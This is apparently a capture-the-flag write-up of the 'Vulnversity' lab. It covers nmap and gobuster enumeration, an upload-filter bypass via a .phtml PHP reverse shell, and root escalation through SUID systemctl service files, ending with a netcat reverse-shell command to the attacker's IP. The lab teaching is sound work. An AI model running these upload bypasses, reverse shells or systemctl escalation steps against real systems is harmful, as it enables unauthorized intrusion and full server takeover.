





# Vulnversity

## Task 1 - Deploy the machine
Click the Start Machine button. I hab been using the Start AttackBox at the top header to use the web based machine provided to save time, but I did not like some of the limitations of this setup so I went ahead and setup the OpenVPN on Kali machine.

## Task 2 - Reconnaissance
Run nmap against the target ip. The ip is given at the top header of the page once the machine is started:
```bash
nmap -sV <targetIP>
```

### Q&A
The output will list the open ports, in my case there was 6.
squid proxy version was listed as 3.5.12 from that output as well.
`-p-400` will scan 400 ports.
If the flag `-n` is used, we are telling nmpa NOT to resolve DNS.
The most likely operating system this machine is running is Ubuntu, although I feel Linux should suffice for this?! This was also in the output of the scan.
The web server is/was running on port 3333, it looks to be an apache server.

## Task 3 - Locating directories using GoBuster
"GoBuster is a tool used to brute-force URIs (directories and files), DNS subdomains and virtual host names. For this machine, we will focus on using it to brute-force directories."

In short, for the purpose of this lab it is going to help us enumerate useful components of the page including directories/pages for us to look into as part of our recon.

I ran the following command:
`gobuster dir -u http://<targetIP>:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

From the output I see an `/internal` directory listed.
Let's use our trusty Firefox browser and go to it:
`http://<targetIP>:3333/internal/`
And look at what we have here:


## Task 4 -  Compromise the webserver
For Task 4 we are going to leverage the upload feature to push a file to the webserver and then execute our code to compromise the server.

### Q&A
`.php` extension files seemed to be blocked. This makes sense since they don't want to allow you to upload your own code and run it on the server.
- While it is a nice attempt to try to stop us, I am confident this logic won't suffice into preventing us to upload code to the server :)

Now we are going to use Burp Suite to figure out what extensions are allowed to be pushed to the server. We are given a list of extensions to try:
```
.php
.php3
.php4
.php5
.phtml
```
I went ahead and created a file in the desktop:
`touch ext_list.txt`
Added the extensions to the text file:
`vim ext_list.txt`

### Burp Suite Intruder
We attempt to upload a file to see what the request from the form looks like and intercept it with Burp Suite. We right click on the payload and send it to intruder for our fuzzing/bruteforce extension attack. We must load our list that we just created from the Intruder -> Payloads tab:


We find that the `.phtml` extension is allowed, and this is our ticket!

### Reverse Web Shell
We follow the link for some code for a PHP web reverse shell. I copied the code from the GitHub page and we jmust change the ip to your given IP, the line number is `49` (follow red arrow):


Now we setup our netcat listener:
`nc -lvnp 1234`
Now we go to the "page" of our code we just uploaded: `http://<targetIP>:3333/internal/uploads/php-reverse-shell.phtml`
This runs the code on the server, and....success:
By going 


#### Q&A
We are asked who is the user that manges the webserver. That is a bit of a tricky question, as you may think that the use would be this `www-data`, but that is the user created to run the webserver. 

We need to do a bit of digging around...
We can look at the home directory and the etc/passwd file and we find that there is a **bill** in both, thus it must be our user and it sure turns out that it is.

For the flag we just `cat /home/bill/user.txt`

### Privilege Escalation
In this section it is explained to us the concept of SUID. This allows a user to run a program or access a file with the permissions of the owner of that program or file. If we can find the right program or file it can potentially allows us to takeover the box by escalating our privileges.
- **Note:** The concept of privilege escalation is that you trying to get access beyond your user predefined authorizations. 

We use the command `find / -user root -perm -4000 -exec ls -ldb {} \;` to find said program or files.
However, we could also use LinPEAS script available at:
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
This highlights the bins that could potentially allow you to priv esc, rather than digging through the output yourself.

I did this manually, I scraped output the relevant output:
```
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-sr-x 1 root root 98440 Jan 29  2019 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 76408 Jul 17  2019 /usr/lib/squid/pinger
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 35600 Mar  6  2017 /sbin/mount.cifs
```
Of interest to us is going to be `/bin/systemctl`, it is used as an interface to systemd and to interact with services running on a system....or to start services :)

For systemctl, we can leverage the man page:
https://www.man7.org/linux/man-pages/man1/systemctl.1.html
We can also get the man page by running `man systemctl` from our host system shell.

But we can also google for `using systemctl for privilege escalation`, this might get us somewhere faster! One of the top search results is:
https://gtfobins.github.io/gtfobins/systemctl/

We get this shell snippet:
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```
From that we'll create our own environment variable to leverage in our prev esc attack and change some of those parameters to get to our file contents and dump in a file that we can access.

```
PWN=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/root.txt"
[Install]
WantedBy=multi-user.target' > $PWN
/bin/systemctl link $PWN
/bin/systemctl enable --now $PWN
```
And it looks like it worked!


Now we just `cat /tmp/root.txt` and we are golden :)

In theory, we could step this up and try to get a root shell with something like this:
```
RevSH=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "nc <ourIP> 5555 –e /bin/sh"
[Install]
WantedBy=multi-user.target' > $RevSH
/bin/systemctl link $RevSH
/bin/systemctl enable --now $RevSH
```
And listen with `nc -lvnp 5555`
